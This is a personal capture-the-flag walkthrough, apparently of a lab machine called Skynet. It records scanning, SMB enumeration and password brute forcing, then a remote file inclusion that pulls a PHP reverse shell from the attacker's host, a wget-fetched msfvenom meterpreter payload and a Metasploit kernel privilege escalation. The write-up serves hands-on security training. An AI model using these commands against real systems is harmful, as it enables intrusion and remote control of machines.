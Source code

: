 # Terminator Notes
----
____

# My IP = 10.8.19.163

# Target IP = 10.10.57.109

# NMAP SCAN:

> sudo nmap -f -sC -sV -p- -O -Pn -n -T4 -vv --script vuln 10.10.199.228 | tee skynet.nmap 

> cat skynet.nmap | grep 'open'

	Results:

		Discovered open port 445/tcp on 10.10.199.228
		Discovered open port 143/tcp on 10.10.199.228
		Discovered open port 22/tcp on 10.10.199.228
		Discovered open port 80/tcp on 10.10.199.228
		Discovered open port 110/tcp on 10.10.199.228
		Discovered open port 139/tcp on 10.10.199.228
		22/tcp    open     ssh          syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
		80/tcp    open     http         syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
		|       Slowloris tries to keep many connections to the target web server open and hold
		|       them open as long as possible.  It accomplishes this by opening connections to
		110/tcp   open     pop3         syn-ack ttl 63 Dovecot pop3d
		139/tcp   open     netbios-ssn  syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
		143/tcp   open     imap         syn-ack ttl 63 Dovecot imapd
		445/tcp   open     netbios-ssn  syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

	SMB ENUM SHARES NMAP Script:

	> nmap --script smb-enum-shares.nse -p445, 139 10.10.199.228

# smbget. 

	Used smbget to acquire logs anf files from target.

	> smbget -R smb://10.10.57.109/anonymous

	Results:

>	smb://10.10.57.109/anonymous/attention.txt                                                                                                                                                                      
>	smb://10.10.57.109/anonymous/logs/log2.txt                                                                                                                                                                      
>	smb://10.10.57.109/anonymous/logs/log1.txt                                                                                                                                                                      
>	smb://10.10.57.109/anonymous/logs/log3.txt

1. Combined all logs into passwords.txt

# Gobuster

> gobuster dir -u http://10.10.199.228:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee skynetbuster.txt

# Burpsuite Intruder Attack

Loaded http POST request into Burpsuite intruder.

USERNAME: milesdyson PASSWORD: cyborg007haloterminator

1. First email gives a new smb password for milesdyson.

	> )s{A&2Z=F^n_E.B`

2. Used smbget to try and see if it works. DENIED?

>	Password for [root] connecting to //milesdyson/10.10.57.109: 
>	Using workgroup WORKGROUP, user root
>	Can't open directory smb://10.10.57.109/milesdyson: Permission denied

# RETRY

> smbget -U milesdyson -R smb://10.10.57.109/milesdyson
> password for milesdyson: )s{A&2Z=F^n_E.B`

Success!

1. Found a document titled important.txt.

> cat important.txt

> Discovered hidden website path.

Dirbuster on the hidden site revealed a /adminsitrator page. Tried earlier credentials.

> USERNAME: milesdyson PASSWORD: cyborg007haloterminator

No luck trying burpsuite intruder attack again.

Now trying remote file inclusion by placing a link request to the webserver and having it download my reverse php shell.

> http://10.10.132.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.19.163:8000/shell.php

NOw i have a reverse shell via nc -lnvp 6666

---

$ cd home
$ ls
milesdyson
$ cd milesdyson
$ ls
backups
mail
share
user.txt
$ cat user.txt
7ce5c2109a40f958099283600a9ae807

---

Try the same thing but with a meterpreter shell via msfvenom.

> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.19.163 LPORT=6677 -f elf > shell.elf

Made a shell.elf wwith meterpreter callback

Went to cd /tmp and used a wget request:

> wget http://10.8.19.163/shell.elf

Success!

Running exploit suggester:

> run post/multi/recon/local_exploit_suggester

I have two priv esc options from the suggester:

> [+] 10.10.132.119 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
> [+] 10.10.132.119 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.

Backgrounding meterpreter shell.

Trying "exploit/linux/local/glibc_realpath_priv_esc" first in metasploit.

No luck.

Tried "exploit/linux/local/bpf_sign_extension_priv_esc" next.

Success.

> getuid - 

> cat /root/root.txt - 3f0372db24753accc7179a282cd6a949

